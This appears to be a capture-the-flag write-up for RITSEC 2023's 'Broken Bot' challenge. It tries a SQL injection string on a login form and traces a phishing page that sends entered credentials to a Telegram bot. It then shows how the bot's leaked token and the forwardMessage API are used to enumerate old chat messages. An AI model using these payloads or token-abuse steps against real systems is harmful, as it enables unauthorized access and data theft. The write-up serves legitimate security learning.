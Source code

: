 ```yaml
---
layout: post
title:  RITSEC 2023 - Web / Broken Bot
summary: 'Writeup for RITSEC 2023 "Broken Bot" Challenge'
author: leo
date: '2023-04-02 00:00:00 -0400'
category: ritsec-ctf-2023
thumbnail: /assets/img/posts/ritsec-ctf-2023/logo.png
include_thumbnail: false
keywords: security, ctf, ritsec
permalink: /blog/ritsec-ctf-2023/web/broken-bot
usemathjax: true
---
```


# Exploring the App
Launching the site, you are brought to a login page where the username is already set to `whiteteam at rit dot edu`. My first thoughts were with regard to SQL Injection or default credentials.  I started with your standard sql injection attack by adding a password of `' or 1=1-- -`.  What happened next was quite interesting, and somewhat comical!  After a brief pause, you are redirected to another site with someone's [voicemail recording](https://archive.org/details/VoiceMail_173).  ...Yep, nobody's there right now.  Where this is a separate site, my assumption is that it's not part of the challenge, and we missed something interesting on the login form.  Let's go back to that.

# How Did We Get There?
This time, I have my network tools open in my browser so I can watch the traffic.  I also start looking at the source code, and find a whole bunch of obfsucated JavaScript.  Having a background in JS, I start trying to un-obfsucate it.... and I finally get to the point where I realize I'm wasting my time a bit.  I don't need to do all of that work yet, if I still don't understand the _behavior_ of the site.  This is probably a rabbit hole that I don't need to follow.

I monitor the network after I add a garbage password, and notice that there are a couple of requests that I wasn't expecting _before_ I'm redirected to the voicemail page:
- [https://ip.seeip.org/geoip](https://ip.seeip.org/geoip)
- [https://api.telegram.org/xxxx:xxxxx/sendMessage](https://api.telegram.org/xxxx:xxxxx/sendMessage)

# The Telegram Call
The geoip call is made before the telegram request, and it does precisely what you think it would.  The telegram request is really interesting though.  Let's inspect this a bit more.  This is a POST request, and it has a body of the following:
```
chat_id: 5852841790
text: ***Rit Cloud Storage by Zach A**

Email: WhiteTeam@rit.edu
Password : asdf
IP Address : xxx.xxx.xxx.xxx
Region : undefined
City : undefined
Country : United States
Useragent : Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Format : WhiteTeam@rit.edu
Date Filled : 4/2/2023
DateSent : 1/28/2023 2:55:30 p.m.
```
I'm no Telegram expert, but we are sending a plaintext password to telegram, and we presumably have everything we need to control that bot.  Now we need to learn what the bot can do, and get it to give us old messages so we can find the legitimate sign-in (which may or may not bring you somewhere else, or just be the flag).

# Telegram's Bot API
By design, the Telegram Bot API does not allow you to pull back arbitrary messages from a room, even if the bot is in that room.  I found this by googling around, and unfortunately didn't note the sources where I read it.  However, bots are intended to be used as a means of interacting within a room.  Either way, let's [read the docs](https://core.telegram.org/bots/api) to learn more about the capabilities.


## SendMessage
First, we know we are using the `sendMessage` API.  Presumably, we are sending that payload as a message to the room.  We also have the `chatId` and the bot's super secret special URL. Note the following in the docs:
> On success, the sent Message is returned

Great!  We know that we can get a Message object as a return object.

## getMe
There's an endpoint that gets the current bot's metadata.  Let's see if there's anything useful there:
```json
{
    "ok":true,
    "result": {
        "id":6055124896,
        "is_bot":true,
        "first_name":"RIT_CTF_Telegram_Bot",
        "username":"xxxxx",
        "can_join_groups":true,
        "can_read_all_group_messages":true,
        "supports_inline_queries":false
    }
}
```
I was really excited about the `can_read_all_group_messages` permission, but as mentioned earlier, it's not something we can use in a straightforward way.

## getMyDefaultAdministratorRights
This is another interesting looking endpoint, let's see what it returns:
```json
{
    "ok":true,
    "result":{
        "can_manage_chat":false,
        "can_change_info":false,
        "can_delete_messages":false,
        "can_invite_users":false,
        "can_restrict_members":false,
        "can_pin_messages":false,
        "can_manage_topics":false,
        "can_promote_members":false,
        "can_manage_video_chats":false,
        "is_anonymous":false
    }
}
```
Ok, fine.  No smoking gun here, but at least we know what it has permission to do.

## How do we read a previous Message?
I'm quite sure at this point I need to exfil old messages from the specific chat.  I noted earlier that the `sendMessage` api returns a Message object, let's see if we can find any other endpoints that will do the same. I searched the api documentation for the exact phrase. `Message is returned`.  There are a lot of results (24 or so), but the 2nd instance is for `forwardMessage`.
<br /><br />
![Telegram's forwardMessage API Reference](/assets/img/posts/ritsec-ctf-2023/broken-bot/forwardMessage.png "Telegram's forwardMessage API Reference")
<br /><br />
There's no need to be quiet in this scenario, so we can probably forward the message back into the same channel without consequence.  Let's start by just checking the first known message in this chat, and keep going until we find it.  Our request will look something like this:
```
https://api.telegram.org/xxxx:xxxx/forwardMessage?chat_id=5852841790&from_chat_id=5852841790&message_id=1
```
Results:
```json
{
    "ok":true,
    "result":{
        "message_id":4882,
        "from":{
            "id":6055124896,
            "is_bot":true,
            "first_name":"RIT_CTF_Telegram_Bot",
            "username":"rochesterissodamncoldbot"
        },
        "chat":{
            "id":5852841790,
            "first_name":"Z",
            "username":"l337Hackzor",
            "type":"private"
        },
        "date":1680532307,
        "forward_from":{
            "id":5852841790,
            "is_bot":false,
            "first_name":"Z",
            "username":"l337Hackzor",
            "language_code":"en"
        },
        "forward_date":1679057324,
        "text":"/start",
        "entities":[{"offset":0,"length":6,"type":"bot_command"}]
    }
}
```

This is awesome, we now have the first message ever sent.  Now all we need to do is keep incrementing the `message_id` query param until we find one with valid credentials or a flag.  In this case, the flag was in message_id 8.

# Conclusion
I _REALLY_ enjoyed this challenge! I actually liked that the JavaScript was a rabbit-hole, as it's helping me focus my time on more meaningful enumeration.  While I eventually would have figured out what the JS was doing by de-obfuscating it, I was easily able to figure it out just by watching the _behavior_.  Additionally, this is more of a real-world scenario where someone sets up a bot or automation, and doesn't do enough to protect the credentials.  In this case, it appears that the bot's URL is kind of like a webhook URL, in that you **need to protect it the same way you do passwords**, otherwise bad actors could abuse it.
